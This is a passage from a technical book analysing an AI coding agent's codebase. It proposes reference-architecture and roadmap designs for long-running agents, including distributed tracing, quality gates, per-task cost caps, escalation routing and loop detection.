    status: 'running',
    attributes,
    children: [],
  }
}

function completeSpan(
  span: TraceSpan,
  status: 'completed' | 'failed' = 'completed',
): void {
  span.endTime = Date.now()
  span.status = status
}
```

**Trace propagation through the dispatch chain.** The trace context flows through five levels, each creating a child span that inherits the parent's `traceId` but generates a new `spanId`:

1. **Parent session creates root span.** At session start (in the `processSessionStartHooks` path through `src/utils/sessionStart.ts`), a root span is created with a fresh `traceId` and `parentSpanId: null`. This root span's `traceId` becomes the correlation key for the entire session, including all subagent work.

2. **`AgentTool.call()` creates child span.** When the parent session dispatches a subagent via `AgentTool` (defined in `src/tools/AgentTool/AgentTool.tsx:L51`), the tool's `call()` method creates a child span with `parentSpanId` set to the current span. The `traceId` and `parentSpanId` are passed to the subagent process via environment variables (`TRACE_ID` and `PARENT_SPAN_ID`), following the same pattern that cc already uses for `CLAUDE_CODE_COORDINATOR_MODE` propagation in `src/coordinator/coordinatorMode.ts:L36-L41`.

3. **`runAgent()` reads trace context.** The `runAgent` function in `src/tools/AgentTool/runAgent.ts:L248` reads `process.env.TRACE_ID` and `process.env.PARENT_SPAN_ID`, creating its own span as a child of the parent's dispatch span. This span covers the entire subagent lifecycle — from prompt injection to final result.

4. **`query()` attaches trace to each API call.** Within each `query()` iteration in `src/query.ts`, the trace context is passed to `addToTotalSessionCost` in `src/cost-tracker.ts:L278` alongside the existing `cost`, `usage`, and `model` parameters. Each API call creates a child span under the `query` span, recording input/output token counts and latency in the span's `attributes`.

5. **Tool dispatch creates tool-level spans.** The tool execution pipeline in `src/services/tools/toolExecution.ts:L800` wraps each tool call in a span. The `runPreToolUseHooks` and `runPostToolUseHooks` calls become child spans of the tool span, making hook latency visible in the trace tree. The tool span's `attributes` include the tool name, a sanitized summary of the input (via `tool.getToolUseSummary`), and the result status.

The following sequence diagram shows trace propagation across three levels of the dispatch hierarchy — parent session, step runner (coordinator subagent), and worker (leaf subagent):

```mermaid
sequenceDiagram
    participant P as Parent Session
    participant S as Step Runner (subagent)
    participant W as Worker (subagent)
    participant API as Anthropic API

    Note over P: Root span created<br/>traceId=abc123, spanId=s1

    P->>P: query() — span s2 (parent=s1)
    P->>API: model call — span s3 (parent=s2)
    API-->>P: response with tool_use: AgentTool

    P->>S: fork subagent — span s4 (parent=s2)<br/>env: TRACE_ID=abc123, PARENT_SPAN_ID=s4
    Note over S: runAgent() reads env<br/>creates span s5 (parent=s4)

    S->>S: query() — span s6 (parent=s5)
    S->>API: model call — span s7 (parent=s6)
    API-->>S: response with tool_use: AgentTool

    S->>W: fork worker — span s8 (parent=s6)<br/>env: TRACE_ID=abc123, PARENT_SPAN_ID=s8
    Note over W: runAgent() reads env<br/>creates span s9 (parent=s8)

    W->>W: query() — span s10 (parent=s9)
    W->>W: PreToolUse hooks — span s11 (parent=s10)
    W->>W: BashTool.call() — span s12 (parent=s10)
    W->>W: PostToolUse hooks — span s13 (parent=s10)

    W-->>S: result + span s9 completed
    S-->>P: result + span s5 completed
    Note over P: Root span s1 completed<br/>Full trace tree available
```

The trace tree produced by this propagation has a clear causal structure: the root span contains the parent session's total duration, its children are query iterations, each query iteration's children are API calls and tool dispatches, and each `AgentTool` dispatch contains the full subtree of the subagent's work. This tree can be exported in OpenTelemetry's OTLP format for ingestion by Jaeger, Datadog, or Grafana Tempo.

**Integration with cc's existing OTel infrastructure.** cc already initializes an OpenTelemetry `Meter` and several `AttributedCounter` instances in `src/bootstrap/state.ts:L89-L98`. The `costCounter` and `tokenCounter` emit metrics through this pipeline. The trace spans extend this infrastructure from metrics-only to metrics-plus-traces. The `Meter` continues to handle counters; a new `TracerProvider` (from `@opentelemetry/sdk-trace-base`) handles span export. Both share the same `Resource` descriptor (service name, session ID, version), ensuring that metrics and traces correlate in the backend.

The environment-variable propagation for `TRACE_ID` and `PARENT_SPAN_ID` is deliberately simple — it avoids introducing a serialization dependency between parent and child processes. An alternative design would use a shared file or IPC channel, but environment variables have the advantage of working across cc's three subagent spawn mechanisms: sync subagents (same process), forked subagents (`src/tools/AgentTool/forkSubagent.ts`), and remote CCR agents. All three mechanisms already propagate environment variables; adding two more (`TRACE_ID`, `PARENT_SPAN_ID`) requires no changes to the spawn infrastructure.

## Control flow

### The long-running trust session

A trustworthy long-running agent operates under a fundamentally different control flow than a single-shot chat. The session protocol from §20 provides the skeleton:

```
ORIENT → SETUP → VERIFY → SELECT → IMPLEMENT → TEST → UPDATE → EXIT
```

In cc, this is approximated by the query loop in `src/query.ts`, which iterates: user input → model call → tool dispatch → observation → next iteration. The critical difference is that cc's loop is **reactive** (driven by user input) while a long-running agent's loop must be **proactive** (driven by task state). The task list is the driver: when the current task completes, the session manager selects the next pending task from the queue, and the loop continues without human intervention.

```mermaid
sequenceDiagram
    participant T as Task List (Layer 1)
    participant S as Session Manager (Layer 2)
    participant Q as Query Loop (Layer 3)
    participant G as Quality Gates (Layer 4)
    participant P as Permission System (Layer 5)
    participant O as Observability (Layer 6)
    participant A as Agent Pool (Layer 7)

    T->>S: SELECT next pending task
    S->>S: ORIENT: load context, verify no drift
    S->>Q: IMPLEMENT: run query iteration
    Q->>P: PreToolUse: check permissions
    P-->>Q: allow/deny
    Q->>G: PostToolUse: run lint/typecheck
    G-->>Q: pass/fail (silent on pass)
    Q->>O: emit metrics (tokens, cost, duration)
    alt Context threshold exceeded
        Q->>Q: compact / reset with handoff
    end
    alt Quality gate failure
        Q->>A: dispatch evaluator agent
        A-->>Q: verdict and fix instructions
    else All gates pass
        Q->>S: UPDATE task status
        S->>T: mark completed, unblock dependents
    end
    S->>S: EXIT or SELECT next task
```

### The back-pressure control flow

The back-pressure stack is the key innovation that makes long-running agents trustworthy. It works by making **success silent and failure verbose** — the agent's context window is never polluted by passing tests, only by failures that require action. The back-pressure stack from §20 is:

```
Type System → Linter → Unit Tests → Integration Tests → E2E/Browser Tests
     ^                                                            |
     |                                                            |
     +---- Only failures surface to agent context ----------------+
```

This is a feedback loop, not a pipeline. Failures at the E2E level may indicate a type-system gap — the type system should have caught the bug before it propagated. When a failure surfaces, the agent fixes it, the quality gates re-run, and if they pass the failure is removed from the context. The loop tightens over time as the type system and linter rules are updated to catch previously-missed error classes.

### The multi-agent coordination flow

HER Layer 7 is the most architecturally ambitious layer, and the one where cc has the widest gap between aspiration and implementation. The generator-evaluator pattern, model routing, file-based inter-agent communication, and git-based conflict resolution are all specified but only partially implemented.

The generator-evaluator pattern is the most important concept in this layer. The idea is simple: one agent generates output, and a second agent — running in an isolated context with no knowledge of the generator's reasoning — evaluates the output against specific criteria. The isolation is critical: if the evaluator shares the generator's context, it inherits the generator's biases. The Ouroboros problem (§9.2) is the degenerate case where the evaluator and generator are the same model with the same context, creating a circular validation loop.

cc's coordinator mode provides the scaffolding for this pattern:

```typescript
// src/coordinator/coordinatorMode.ts:L36-L41 — Coordinator mode detection
export function isCoordinatorMode(): boolean {
  if (feature('COORDINATOR_MODE')) {
    return isEnvTruthy(process.env.CLAUDE_CODE_COORDINATOR_MODE)
  }
  return false
}
```

The feature gate means this is not yet a stable API. The `matchSessionMode` function at `src/coordinator/coordinatorMode.ts:L49-L78` handles a subtle failure mode: when a session is resumed, the coordinator mode environment variable may not match the session's stored mode. The function detects this and flips the env var, but this is a reactive fix — the reference architecture should store mode in the session metadata and validate it at startup.

For the reference architecture, the generator-evaluator pattern should be the default for quality-critical work. The decision framework from §19.1 provides the routing: if the task requires quality guarantees, use generator-evaluator; if not, use a simple bash loop. The model routing from §19.4 is equally important: expensive models (Opus-class) for planning and architecture decisions, mid-tier (Sonnet-class) for code generation, cheap (Haiku-class) for summarization and classification, and same-tier-or-higher for evaluation.

The key implementation detail for generator-evaluator is **context isolation**: the evaluator must run in a fresh context with no access to the generator's intermediate reasoning. cc's forked subagent mechanism (`src/tools/AgentTool/forkSubagent.ts`) provides the isolation primitive — a forked agent has its own context window and cannot see the parent's conversation history. The reference architecture should use this mechanism to spawn evaluators in forked contexts.

HER Layer 7 also specifies **git-based conflict resolution** for multi-agent coordination — a topic cc's worktree system (Chapter 46) touches but does not fully address. When two agents work on isolated worktrees and both modify files in the same directory, merging their changes back requires a conflict resolution strategy. cc's `EnterWorktreeTool` creates isolated git worktrees with independent branches, but the merge-back path is left to the user. A reference architecture should automate this: when a worktree agent completes, the harness should attempt a `git merge` or `git rebase` onto the parent branch. If the merge succeeds without conflicts, it proceeds automatically. If conflicts arise, the harness should invoke a conflict-resolution agent — a third agent in a fresh context that sees only the conflicting diffs and resolves them. This three-agent pattern (generator A, generator B, resolver C) mirrors the generator-evaluator pattern but applies it to merge conflicts instead of quality evaluation.

### The learning and adaptation flow

HER Layer 8 is the final layer and the one that makes the harness self-improving. The specification includes: progress notes persisted to files (survive context resets), pattern discovery logged to AGENTS.md, feedback from evaluator recorded for future sessions, stale assumptions pruned as models improve, and harness configuration versioning and A/B testing.

cc implements the first two of these through its memdir system and CLAUDE.md. Progress notes are stored as `project`-type memories in memdir, and the `AGENTS.md` file (analogous to `CLAUDE.md` but for agent-specific instructions) is the pattern discovery log. The DreamTask consolidation system (Chapter 24) provides background memory consolidation — it runs when the agent is idle, extracting patterns from the current session and writing them to memdir files.

What's missing is the feedback loop from evaluation to future sessions. When an evaluator agent identifies a quality issue, that feedback should be persisted in a structured form that the next session can query. Currently, evaluator feedback is lost when the session ends. The reference architecture should implement an `evaluator_feedback.json` file — a structured log of quality issues, their root causes, and the fixes applied — that is loaded into the context at session start.

The harness versioning and A/B testing component is the most forward-looking. The idea, drawn from the Meta-Harness and AutoHarness research (§15), is that the harness itself is a configurable artifact that can be versioned, rolled back, and A/B tested. If a new compaction strategy produces worse results, the harness should be able to roll back to the previous strategy without human intervention. cc's settings cascade (Chapter 31) provides the configuration infrastructure, but it lacks the versioning and rollback mechanisms that would enable this kind of self-correction.

Closely related is the **stale assumption pruning** mechanism. Every harness component encodes an assumption about model capabilities — the yoloClassifier assumes the model cannot classify Bash commands reliably, the compaction hierarchy assumes the model cannot handle full context, and the permission system assumes the model will make dangerous choices. As models improve across training runs, these assumptions become stale. The reference architecture should include an assumption registry — a structured file listing each harness component alongside the model capability assumption it encodes, a test case that validates the assumption, and a sunset condition. When the test case passes (meaning the model can now handle the task that the harness component was built to compensate for), the component is flagged for removal. For example, if a future model can classify Bash commands with >99.9% accuracy across a representative corpus, the yoloClassifier becomes unnecessary and the auto-approval path can be simplified. Without such a registry, harness complexity only accumulates — components are added to compensate for model limitations but never removed when those limitations are resolved.

## Edge cases and failure modes

### The compaction death spiral

When context exceeds the autocompact threshold, cc enters a potentially recursive failure mode: compaction itself consumes tokens, and if the compaction summary is too large, the next iteration may immediately exceed the threshold again. The `MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES = 3` circuit breaker `src/services/compact/autoCompact.ts:L68-L70` prevents infinite recursion, but the correct architectural response is **structured handoff** — save a progress file, clear the context, and resume from the file rather than attempting increasingly aggressive compaction within the same session.

The death spiral is particularly dangerous because it is self-reinforcing: each failed compaction attempt adds more tokens to the context (the error message, the retry logic), making the next attempt even less likely to succeed. The reference architecture should treat compaction failure as a signal for session restart, not a signal for retry.

### The evaluator ouroboros

HER §9.2 identifies the Ouroboros problem: using an LLM evaluator to grade LLM output creates a circular validation loop. The yoloClassifier in `src/utils/permissions/yoloClassifier.ts` is cc's most prominent example — it uses a model call to classify whether a Bash command is safe to auto-approve. If the classifier makes a mistake, the safety layer is compromised. The reference architecture resolution is **deterministic evaluation wherever possible** — linters, type checkers, and test suites — and **LLM evaluation only for qualities that cannot be deterministically assessed** (design quality, readability).

The decision framework from §19.3 provides the evaluation strategy selection: correctness-only tasks use deterministic evaluation, correctness-plus-design-quality tasks use deterministic plus LLM evaluation in a fresh context, and high-stakes tasks (production, security) use deterministic plus LLM plus mandatory human review.

### Coordinator mode mismatch on resume

`src/coordinator/coordinatorMode.ts:L49-L78` reveals a subtle failure mode: when a session is resumed, the coordinator mode environment variable may not match the session's stored mode. The `matchSessionMode` function detects this and flips the env var, but this is a reactive fix, not a proactive guard. A reference architecture should store mode in the session metadata and validate it at startup, not discover the mismatch at runtime.

### Swarm agent task locking

Multiple agents in a coordinator swarm writing to the same task list can race. cc uses filesystem locking with retry backoff `src/utils/tasks.ts:L94-L100`, but the comment reveals the design tension: "The sync lockSync API blocked the event loop; the async API needs explicit retries to achieve the same serialization semantics." A reference architecture should use a proper distributed lock service or a single-writer task queue, not filesystem locks that block the event loop under contention.

### Cost runaway

HER Principle 10 warns to "budget for 3-10x the happy-path cost." cc's `addToTotalSessionCost` in `src/cost-tracker.ts:L278-L323` records cost but never checks it against a limit. A long-running agent that enters an infinite loop (§6.7) can accumulate thousands of dollars in API costs before a human notices. The reference architecture must implement the three-tier cost system described in the Layer 6 section: soft cap → hard cap → kill switch.

## Where cc diverges from the published pattern

**Divergence 1: No priority-ordered task queue.** HER Layer 1 specifies priority ordering and dependency tracking. cc implements dependency tracking (`blocks`/`blockedBy`) but not explicit priority — tasks are processed FIFO. For short sessions this is fine; for multi-hour tasks spanning dozens of subtasks, priority ordering becomes essential to avoid working on low-impact items while high-impact items wait.

**Divergence 2: No structured session handoff.** HER Layer 2 specifies "session-to-session handoff via structured files." cc can resume sessions via JSONL persistence, but it cannot automatically write a handoff document that says "here's what I did, here's what's left, here's where to pick up." The DreamTask consolidation system (Chapter 24) moves in this direction but is limited to memory extraction, not full session decomposition.

**Divergence 3: Observation masking is partial.** HER §8.1 cites observation masking as achieving a 52% cost reduction. cc's microcompact (`src/services/compact/microCompact.ts`) implements this by trimming tool results, but it does not implement the full "success is silent; only failures produce verbose output" pattern. Tool results from successful operations still enter the context in full.

**Divergence 4: No cost caps or anomaly detection.** HER Layer 6 specifies "per-session and per-task cost caps" and "real-time token metering and anomaly detection." cc meters costs in `src/cost-tracker.ts` but does not enforce caps or detect anomalies. The state tracks `totalCostUSD` but no code path checks it against a budget limit and throttles or aborts.

**Divergence 5: No distributed tracing.** HER Layer 6 specifies "distributed tracing (OpenTelemetry) across multi-agent workflows." cc has OpenTelemetry meters and counters but does not emit spans for multi-agent workflows. A forked subagent's work is invisible to the parent's trace context.

**Divergence 6: No formal idempotency keys.** HER Layer 5 specifies "idempotency keys for external operations." cc has no mechanism to prevent duplicate external side effects (e.g., sending the same Slack message twice after a checkpoint-restore cycle).

**Divergence 7: No per-session evaluator agent.** HER Layer 4 specifies "per-session: evaluator agent in fresh context." cc has no mechanism to spin up a fresh-context evaluator at session end that reviews all changes made during the session. The closest approximation is the code-review skill, which is user-invoked rather than automated.

**Divergence 8: No harness configuration versioning.** HER Layer 8 specifies "harness configuration versioning and A/B testing (Meta-Harness approach)." cc's settings cascade (Chapter 31) provides configuration, but there is no mechanism to version the harness itself, roll back to a previous configuration, or A/B test different harness configurations.

**Divergence 9: No loop detection with automatic escalation.** HER §6.7 identifies infinite loops as a failure mode. cc's `AutoCompactTrackingState.consecutiveFailures` provides a circuit breaker for compaction loops, but there is no general-purpose loop detector that recognizes when the agent is repeating the same tool call pattern without making progress (e.g., editing a file, running a test, getting the same error, editing again). The reference architecture should track a sliding window of tool call signatures and escalate when a pattern repeats more than N times.

**Divergence 10: No per-task cost accounting.** HER Layer 6 implies per-task cost tracking. cc tracks cost at the session level (`totalCostUSD` in `src/bootstrap/state.ts`) but cannot attribute cost to individual tasks. For a multi-task session, the operator cannot tell which task was expensive and which was cheap. The reference architecture should accumulate cost per task ID, enabling cost-aware task prioritization.

## Developer takeaways for building a long-running agent

1. **Start with the task list, not the model.** The task record in `src/utils/tasks.ts:L76-L89` is the single source of truth. JSON, not Markdown — structured data enables automated reasoning about dependencies and priorities.

2. **Wire back-pressure before you wire the model.** A `PostToolUse` hook running `tsc --noEmit` catches errors the model will miss. Quality gates are deterministic; model judgment is probabilistic.

3. **Budget for compaction from day one.** Without the circuit breaker (`MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES = 3` in `src/services/compact/autoCompact.ts:L68-L70`), cc would waste 250K API calls/day on death spirals. Add compaction thresholds, failure counters, and a structured handoff escape hatch.

4. **Cost tracking must feed back into control flow.** Recording `totalCostUSD` in `src/bootstrap/state.ts:L51` is necessary but insufficient — check cost against a budget and degrade gracefully.

5. **Separate generation from evaluation.** Use deterministic evaluation (tests, linters, type checkers) as the primary quality gate; LLM evaluation only for qualities that cannot be deterministically assessed.

6. **Observation masking is the highest-ROI optimization.** HER §8.1's 52% cost reduction is empirical, not theoretical. Make successful tool outputs invisible by default — only failures should enter the context.

7. **Session handoff is the hardest unsolved problem.** At session exit, write a structured handoff file with completed tasks, remaining tasks, blockers, and context hints for the next session.

8. **Simplify relentlessly as models improve.** Every harness component encodes an assumption about model limitations. As models improve, these assumptions go stale. Build your harness to be dismantlable, not permanent.

```mermaid
stateDiagram-v2
    [*] --> Orienting: Session start
    Orienting --> Verifying: Load context + settings
    Verifying --> Selecting: All checks pass
    Verifying --> Aborting: Check failure

    Selecting --> Implementing: Task selected from queue
    Implementing --> GateCheck: Tool execution complete

    GateCheck --> Implementing: Gates pass (silent)
    GateCheck --> Evaluating: Gate failure (verbose)
    GateCheck --> Compacting: Context threshold exceeded

    Evaluating --> Implementing: Fix instructions received
    Evaluating --> Escalating: Evaluator uncertain

    Compacting --> Implementing: Compaction succeeds
    Compacting --> HandingOff: 3 consecutive failures

    Escalating --> Implementing: Human approves path
    Escalating --> Aborting: Human rejects

    HandingOff --> Orienting: Fresh session from handoff

    Implementing --> Updating: Task complete
    Updating --> Selecting: More tasks pending
    Updating --> Exiting: All tasks done

    Exiting --> [*]
    Aborting --> [*]
```

The reference architecture is not a blueprint — it is a decision framework. Every layer exists because a specific failure mode was observed in production. The task list prevents forgotten work. The session protocol prevents context rot. The quality gates prevent silent regression. The permission system prevents destructive mistakes. The cost metering prevents runaway spending. The multi-agent coordination prevents single-point-of-failure generation. The learning layer prevents repeating the same mistakes. Build the layers you need, verify they work, and remove them when the model outgrows them.

The decision framework from §19 is the closing thought: if your task is a single well-defined operation, no harness is needed. If it spans multiple sessions, add Layers 1–2. If it requires quality guarantees, add Layers 3–5. If it requires multiple concurrent agents, add Layers 6–7. If it requires learning and adaptation, add Layer 8. The reference architecture is not a monolith — it is a stack you assemble based on the failure modes you've observed and the guarantees you need.
# What To Build Next: An Opinionated Roadmap

## Overview

This chapter is the engineering counterpart to Chapter 55's reference architecture. Where Chapter 55 sketched the eight-layer model in the abstract, this chapter delivers a concrete, opinionated roadmap for a team building on the cc codebase: what to keep, what to rewrite, and what to add from scratch.

The roadmap is grounded in the HER cross-references that expose cc's most consequential gaps. Section 11 details human-in-the-loop patterns that cc partially implements but never systematizes. Section 13 catalogues cost failure modes that cc's `cost-tracker.ts` detects after the fact but cannot prevent. Section 14 lays out the three-pillar observability model that cc's analytics layer only half satisfies. And Section 20 synthesizes the twelve core principles that should govern every build-or-borrow decision.

The gap between cc's current state and the HER ideal is not a deficiency in cc's design -- it is a reflection of cc's origin as a single-session interactive tool rather than a multi-hour autonomous harness. The features cc lacks (per-task budget enforcement, distributed tracing, loop detection, context-rich escalation) are features that only matter when the agent runs for hours without human supervision. This roadmap targets the transition from interactive tool to trustworthy long-running harness.

The result is a three-track roadmap:

| Track | Scope | Effort | Chapters affected |
|-------|-------|--------|-------------------|
| Keep | Subsystems that already embody HER principles | 0 (maintain) | 12, 28, 29, 50 |
| Rewrite | Subsystems that fight their own purpose | Medium | 17, 8, 50 |
| Add | Subsystems that do not exist | Medium-Large | New |

Each track is ordered by impact: the highest-leverage changes come first. Within each track, the ordering reflects the HER principle that cost control and observability are prerequisites for autonomous operation -- you must be able to see what the agent is doing and stop it when it goes wrong before you can trust it to run unattended.

The roadmap also reflects HER Principle 9 ("Simplify relentlessly. Strip unneeded harness complexity as models improve"). Every proposed addition includes a removal condition: the circumstances under which the feature should be retired or simplified as model capabilities advance.

## Data structures and contracts

The roadmap's proposed additions center on five new contracts that cc currently lacks. Each is modeled as a TypeScript interface that could live alongside existing modules without breaking changes. These contracts are the architectural foundation; the implementation sections in later tracks describe how they integrate into cc's existing pipelines.

### Per-task cost cap

cc accumulates cost globally via `addToTotalSessionCost` in `src/cost-tracker.ts`:

```typescript
// src/cost-tracker.ts:L278-L284 — session cost accumulation, no per-task cap
export function addToTotalSessionCost(
  cost: number,
  usage: Usage,
  model: string,
): number {
  const modelUsage = addToTotalModelUsage(cost, usage, model)
  addToTotalCostState(cost, modelUsage, model)

  const attrs =
    isFastModeEnabled() && usage.speed === 'fast'
      ? { model, speed: 'fast' }
      : { model }
```

The function is purely additive. There is no threshold check, no budget gate, and no graceful failure path. It calls `addToTotalCostState` which updates a module-level counter and returns, never throwing, never blocking. cc already has a *task budget* -- the API-level `output_config.task_budget` that limits the whole agentic turn and is distinct from the client-side token budget managed by `BudgetTracker` in `src/query/tokenBudget.ts`. What cc lacks is a *per-task cost cap* that applies a hard ceiling to individual task expenditures. The proposed `CostCap` contract adds this hard ceiling and a soft warning at 80%:

```typescript
interface CostCap {
  taskId: string
  capUSD: number
  warnAtUSD: number          // typically 80% of capUSD
  spentUSD: number
  state: 'within' | 'warning' | 'exceeded'
  deadLetterReason?: string  // why the task exceeded budget
}
```

When `spentUSD` exceeds `capUSD`, the task enters the `exceeded` state and the harness must refuse to dispatch further tool calls on that task's behalf, queuing remaining work for human review instead. The `deadLetterReason` field captures the context needed for the dead-letter queue that HER Section 13.2 prescribes: "Tasks exceeding thresholds get queued for human review."

The `CostCap` also supports HER Section 13.2's budget allocation requirement: "Separate budgets for generator/evaluator/sub-agents." Each subagent dispatched via `AgentTool` receives its own `CostCap` derived from the parent task's remaining budget, preventing a runaway evaluator from consuming the entire session's allocation. This is complementary to, not a replacement for, the existing task budget (API-level turn budget): the task budget constrains the agentic turn's total output, while the cost cap constrains dollar spend per discrete unit of work.

### Confidence-based routing record

HER Section 11 prescribes confidence-based routing for human-in-the-loop decisions. cc's `AskUserQuestionTool` in `src/tools/AskUserQuestionTool/AskUserQuestionTool.tsx` provides the mechanism for asking a human but carries no metadata about *why* the agent is uncertain or how confident it is:

```typescript
// src/tools/AskUserQuestionTool/AskUserQuestionTool.tsx:L209-L222 — call() returns answers, no confidence data
  async call({
    questions,
    answers = {},
    annotations
  }, _context) {
    return {
      data: { questions, answers, ...(annotations && { annotations }) }
    }
  },
```

The tool's input schema already supports structured questions with options, descriptions, and even preview content. The `annotations` field captures user notes on their selections. But there is no field for the agent's decision context -- what it was trying to do, what it already tried, or why it is uncertain. The human must reconstruct this from the conversation history, which may span thousands of tokens of tool output.

The proposed `EscalationRecord` adds the context-rich escalation payload that HER Section 11.4 requires:

```typescript
interface EscalationRecord {
  taskId: string
  confidence: number           // 0.0-1.0
  intent: string               // what the agent was trying to do
  attempts: string[]           // what it tried and why each failed
  options: EscalationOption[]  // what options the agent sees
  recommendation?: string      // what the agent recommends
  tier: 1 | 2 | 3 | 4         // HER escalation tier
}

interface EscalationOption {
  label: string
  description: string
  riskLevel: 'low' | 'medium' | 'high'
  estimatedCost?: number       // approximate token cost of this path
}
```

This record flows into a routing layer that decides: tier 1-2 decisions proceed automatically; tier 3 decisions invoke `AskUserQuestionTool` with the full context; tier 4 decisions block and queue for expert review. The routing layer itself is deterministic -- it does not use the model to decide whether to escalate, because that would be subject to the self-evaluation bias that HER Section 6.3 documents.

### Observability span

HER Section 14 demands distributed tracing across multi-agent workflows. cc's analytics sink in `src/services/analytics/index.ts` logs named events but carries no span linkage:

```typescript
// src/services/analytics/index.ts:L72-L78 — AnalyticsSink has no trace context
export type AnalyticsSink = {
  logEvent: (eventName: string, metadata: LogEventMetadata) => void
  logEventAsync: (
    eventName: string,
    metadata: LogEventMetadata,
  ) => Promise<void>
}
```

The `LogEventMetadata` type is a flat record of booleans and numbers -- no trace IDs, no parent references, no causal ordering. When a subagent's tool call fails, there is no way to link that failure back to the parent agent's dispatch decision in the analytics pipeline.

The proposed `TraceSpan` adds OpenTelemetry-compatible span linkage:

```typescript
interface TraceSpan {
  traceId: string
  spanId: string
  parentSpanId?: string
  operation: string           // e.g., 'tool.dispatch', 'query.iteration'
  startTime: number
  endTime?: number
  status: 'ok' | 'error' | 'timeout'
  attributes: Record<string, string | number>
}
```

Each tool dispatch, subagent spawn, and model invocation becomes a span. The existing `logEvent` calls become span events rather than standalone log lines. The trace tree can be exported in OpenTelemetry format for ingestion by Datadog, Jaeger, or any compliant backend.

### Loop detection record

HER Section 14.4 prescribes loop detection as a first-class alerting pattern. The proposed `LoopDetectionRecord` captures the evidence needed to distinguish a genuine loop from a legitimate retry:

```typescript
interface LoopDetectionRecord {
  toolName: string
  inputHash: string           // hash of the tool call's input parameters
  callTimestamps: number[]    // timestamps of identical calls within the window
  windowMs: number            // sliding window duration (default: 300000 = 5 min)
  maxIdenticalCalls: number   // threshold for loop detection (default: 3)
  isLoop: boolean
  suggestedAlternative?: string  // system-prompt nudge to break the loop
}
```

The `inputHash` field enables the detector to distinguish between progress-advancing retries (different input each time) and stuck retries (identical input). This is critical for the common case of an agent waiting for a build to succeed: each `BashTool` call has different output, so the input hash changes, and the detector correctly identifies it as non-looping.

### Spend-rate snapshot

HER Section 13.2 prescribes "per-hour spend rate alert -- anomaly detection on spend velocity." The proposed `SpendRateSnapshot` captures the rolling-average computation:

```typescript
interface SpendRateSnapshot {
  windowMs: number             // rolling average window (default: 600000 = 10 min)
  currentCostPerMinute: number
  rollingAverageCPM: number
  currentTokensPerMinute: number
  rollingAverageTPM: number
  isAnomalous: boolean         // true when both cost and token rates exceed 2x average
  anomalySeverity: 'none' | 'low' | 'medium' | 'high'
}
```

The dual-rate design (cost-per-minute AND tokens-per-minute) prevents false positives from model cost asymmetry. A single Opus call can cost 10-30x a Haiku call while using similar token counts. The monitor only fires when both rates exceed their thresholds simultaneously, ensuring that an expensive-but-normal model upgrade does not trigger a false alarm.

## Control flow

### Quality-gates pipeline

The single most impactful addition is a quality-gates pipeline that wires HER Section 20's back-pressure stack into the query loop. Currently, cc's query loop in `src/query.ts` checks token budgets and autocompact thresholds but has no semantic quality gates. The autocompact circuit breaker in `src/services/compact/autoCompact.ts` exemplifies the reactive pattern:

```typescript
// src/services/compact/autoCompact.ts:L258-L265 — circuit breaker for compaction failures
    if (
      tracking?.consecutiveFailures !== undefined &&
      tracking.consecutiveFailures >= MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES
    ) {
      return { wasCompacted: false }
    }
```

This is a cost-avoidance circuit breaker, not a quality circuit breaker. It stops the harness from burning tokens on futile compaction attempts, but it does not evaluate whether the agent's output is semantically correct. The `MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES` constant is set to 3 because, as the code comment notes, "1,279 sessions had 50+ consecutive failures (up to 3,272) in a single session, wasting ~250K API calls/day globally." This is exactly the kind of runaway behavior that a quality-gates pipeline would catch earlier.

The proposed pipeline adds *semantic* checkpoints that fire between tool calls:

```mermaid
flowchart TD
    A[Tool call completes] --> B{Pre-commit gate}
    B -->|Lint pass| C{Type check pass?}
    C -->|Yes| D{Test gate}
    C -->|No| E[Queue fix task]
    D -->|Pass| F[Commit result]
    D -->|Fail| G{Failure type?}
    G -->|Deterministic| H[Auto-retry with fix]
    G -->|Ambiguous| I[Escalate per confidence tier]
    I --> J{Tier 1-2: Auto}
    I --> K{Tier 3: AskUser}
    I --> L{Tier 4: Block + queue}
    H --> A
    E --> A
    J --> F
    K --> M[Human answer] --> F
    L --> N[Expert review] --> F
```

The pipeline's control flow mirrors the HER session protocol (ORIENT -> SETUP -> VERIFY -> SELECT -> IMPLEMENT -> TEST -> UPDATE -> EXIT) but inserts deterministic gates at the IMPLEMENT -> TEST boundary. Each gate is a `PreToolUse` or `PostToolUse` hook that returns a pass/fail/escalate verdict.

The pipeline's interaction with existing cc systems is carefully designed. The lint gate reuses the `BashTool`'s command classification to determine whether a lint command is read-only (safe to run automatically) or write-capable (requires permission). The type-check gate uses the `LSPTool`'s diagnostic registry to retrieve errors without spawning a new language server. The test gate runs through the `BashTool` with a special `test-runner` classifier tag that marks it as a high-priority read operation.

The quality-gates pipeline must also interact correctly with cc's autocompact subsystem. The `shouldAutoCompact` function in `src/services/compact/autoCompact.ts:L160-L239` fires when context usage approaches the model's window limit, triggering a compaction pass that may rewrite the conversation history. If a quality gate fails and the agent retries the tool call, the retry adds new tokens to the context, potentially pushing `shouldAutoCompact` over its threshold. The pipeline handles this by recording the gate failure as a `TraceSpan` (which survives compaction) rather than as an in-context message. This ensures that the gate's verdict is not lost when the compaction pass summarizes older turns. Additionally, the pipeline respects the autocompact circuit breaker: if `MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES` has been reached (indicating that compaction is failing), the quality-gates pipeline enters a degraded mode that only runs the cheapest gates (lint) and escalates all others, avoiding the compaction death spiral where gate failures trigger compaction attempts that fail and add more tokens.

### The three-track roadmap as a decision flow

The following diagram shows the proposed additions and their relationships to existing cc subsystems:

```mermaid
classDiagram
    class Existing {
        +QueryLoop
        +CostTracker
        +AnalyticsSink
        +AskUserQuestion
        +AutoCompact
        +Permissions
        +CompactionHierarchy
        +SessionPersistence
    }
    class CostCap {
        +taskId: string
        +capUSD: number
        +spentUSD: number
        +state: State
        +checkGate(): Verdict
        +allocateForSubagent(): CostCap
    }
    class EscalationRecord {
        +taskId: string
        +confidence: number
        +intent: string
        +tier: Tier
        +toAskUser(): Input
    }
    class TraceSpan {
        +traceId: string
        +spanId: string
        +operation: string
        +status: Status
        +addChild(span): void
    }
    class QualityGatePipeline {
        +gates: Gate[]
        +evaluate(result): Verdict
        +route(verdict): Action
    }
    class LoopDetector {
        +history: CallRecord[]
        +detectLoop(): LoopDetectionRecord
        +staleThreshold: number
        +windowMs: number
    }
    class SpendRateMonitor {
        +windowMs: number
        +currentRate(): SpendRateSnapshot
        +alertThreshold: number
    }
